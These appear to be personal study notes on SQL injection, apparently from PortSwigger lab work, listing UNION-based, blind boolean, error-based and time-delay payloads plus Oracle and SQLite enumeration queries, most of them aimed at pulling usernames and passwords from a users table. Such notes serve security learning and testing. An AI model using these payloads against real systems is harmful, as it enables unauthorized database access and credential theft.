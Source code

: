 
### Basics : 

- To select different things from a table , we use ' , ' . example : `select username,password from users;`

- Limit : `select * from users LIMIT 1; : one row `
	   LIMIT x,y : skip the first 'x' results , and give just 'y' row . 

- `select * from users where username like 'a%';` : Using the like clause allows you to specify data that isn't an exact match but instead either starts, contains or ends with certain characters by choosing where to place the wildcard character represented by a percentage sign %.

- insert into users (username,password) values ('bob','password123'); : very clear
- update users SET username='root',password='pass123' where username='admin'; : is clear also

- UNION : we need the exact same number of colomns like the first select , and the same datatype

- comments : -- - 


----------------------------------------------------

some payloads and techniques : 
?id=
'
' UNION SELECT username,password FROM users--
1 and 1=2
1 or 1=1
1 and SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='x' // keep trynig letters to find the first character in the hash password
'+OR+1=1--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- // version of database

admin'--
admin' OR '1'='1
' UNION SELECT username, password FROM users--

union attack : 
you need two conditions : How many columns are being returned from the original query.
			  Which columns returned from the original query are of a suitable data type to hold the results from the injected query.
Determining the number of columns required : 
' UNION SELECT NULL--
' UNION SELECT NULL,NULL-- 

until another message error

Finding columns with a useful data type : 

' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

in oracle : select null from dual (many things are not the same , goback to portswigger lab n°10)

' UNION SELECT username, password FROM users--
' UNION SELECT username || '~' || password FROM users--  : to select multiple values within a single column

Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

'+UNION+SELECT+'abc','def'#

method : 
1-find the number of columns
2-find the data type of the columns
3-version of the database
4-output the list of table names in the database
5-output the column names of the table
6-output the usernames and passwords


_______________________________________________________________________

Blind sql injection : 
you can inject in somme interesting cookies : 
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm  : tjib the first character from the password and compare it with m , so you need to get all the character one by one

' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

AND (SELECT 'a' FROM users LIMIT 1)='a : to verify if is exist table users

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a : to verify if user has the name administrator

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a : to calculate the length of the password

_________________________________________________________________________
in oracle database : 
you need to add a table name in select
limit 1      ===          where rownum=1

TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

__________________________________________________________________________

TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--       : retrieve data from error , cast convert (anything) to as (.....)

____________________________________________________________________________

The COUNT() function returns the number of rows that matches a specified criterion.

The CASE expression goes through conditions and returns a value when the first condition is met (like an if-then-else statement). So, once a condition is true, it will stop reading and return the result. If no conditions are true, it returns the value in the ELSE clause.

If there is no ELSE part and no conditions are true, it returns NULL.

___________________________________________________________________________
time delay sqli : 

'; IF (1=2) WAITFOR DELAY '0:0:10'--
'||pg_sleep(10)--
x' SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,2,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

__________________________________________________________________________________

you can find sql injection in xml , in the parameter of the xml , if you see a number =4 , try 2+2 and see if the same

___________________________________________________________________________
XOR(if(now()=sysdate(),sleep(5),0))XOR


---
#### sqllite : 

==get the tables :== (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')

==get the colomuns==
(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable')


==blind sqli (boolean)==

SUBSTR((SELECT password FROM users LIMIT 0,1),1,1)